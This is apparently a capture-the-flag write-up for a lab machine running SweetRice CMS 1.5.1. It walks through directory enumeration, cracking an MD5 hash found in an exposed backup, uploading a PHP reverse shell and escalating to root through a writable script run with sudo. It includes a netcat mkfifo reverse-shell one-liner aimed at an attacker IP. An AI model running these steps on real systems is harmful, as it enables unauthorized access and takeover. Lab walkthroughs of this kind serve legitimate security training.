# Enumeration

We begin with a quick nmap scan, which identifies ports 22 and 80 as open. A follow-up scan provides more detail:



Let's enumerate the web server. The main page is just the default Apache2 Ubuntu page. We'll use gobuster to look for any interesting directories. Run the following:
```bash
gobuster dir -u http://10.10.160.235 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
```

We eventually find the directory `/content`. Navigating here, we find an under-construction webpage built with the SweetRice CMS.



Running gobuster again relative to our new directory, we find a few subdirectories.



We find a login form at `/content/as`. 



Navigating to `/content/inc/latest.txt` reveals the version number of the CMS as 1.5.1. More interestingly, we have a backup file located at `/content/inc/mysql_backup/`, which reveals some sensitive information. If we look closely, we find something which appears to be a either a password or a hash.  A quick online search using a hash identifiers reveals that it is indeed an MD5 hash.



Running the hash through an [online hash cracker](https://crackstation.net/) quickly gives us the password. We have a few candidates for the username given by the mysql backup file; cycling through them eventually reveals `manager` as the username associated to the password we found. Logging in greets us with a dashboard page.



<br>

# Exploitation

Now that we have admin access to the CMS, we can begin looking for an exploit. Let's start by changing the website status so that it is running.


Using the version info we found earlier, we can search for an exploit. We find a [possible exploit](https://packetstormsecurity.com/files/139521/SweetRice-1.5.1-Code-Execution.html) for code execution.



Following the instructions given by the exploit, we navigate to the Ads section of the Dashboard. As described by the exploit, we are allowed to upload php files here. We can use this to launch a php reverse shell, such as [this one](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). We modify it and save it as `reverseshellphp`.





Now set up a netcat listener on the chosen port and navigate to `http://10.10.160.235/content/inc/ads/reverseshellphp.php`. The script executes, and we have obtained an initial shell.



Upgrade the shell with `python -c 'import pty; pty.spawn("/bin/bash")'`. We find the `user.txt` flag in the `/home/itguy` directory.



<br>

# Post-exploitation

Let's look for an avenue to escalate our privileges. Use `sudo -l` to list the current user's sudo privileges.



Thus, the current user can run the perl script as sudo. Let's take a look at the contents of the `backup.pl` file.



It seems like the backup script just runs the `copy.sh` file. Opening the contents of this latter file, we find a reverse shell script.



Note that we have write privileges! Our goal is to edit this script by replacing it with a reverse shell pointing to our attacking machine, then run `backup.pl` as sudo. Since we don't seem to have access to a text editor, we'll have to rewrite the contents of the `copy.sh` file using `echo "<script>" > /etc/copy.sh`. Luckily, there is a curated [list](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) of reverse shell one-liners. I wasn't able to get some of them to work, but eventually I was able to use one of the netcat one-liners.

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.30.43 8888 >/tmp/f" > /etc/copy.sh
```

(Here be sure to use a different port from the one used for the initial shell.) Now set up a netcat listener and catch the reverse shell using `sudo /usr/bin/perl /home/itguy/backup.pl`. Since the script is run as sudo, we end up catching a reverse shell with root privileges. From here, we easily locate the root flag.





There is an alternative way to obtain the root flag which doesn't involve obtaining a root shell. Since the `copy.sh` is writable by our initial user, we can simply replace its contents with a command that reads the `root.txt` file. (Here, of course, we have to guess the precise location of the root flag.) Going back to our initial shell, we use `echo "cat /root/root.txt" > /etc/copy.sh`. Then using `sudo /usr/bin/perl /home/itguy/backup.pl` prints the contents of the `root.txt` file. Pretty cool!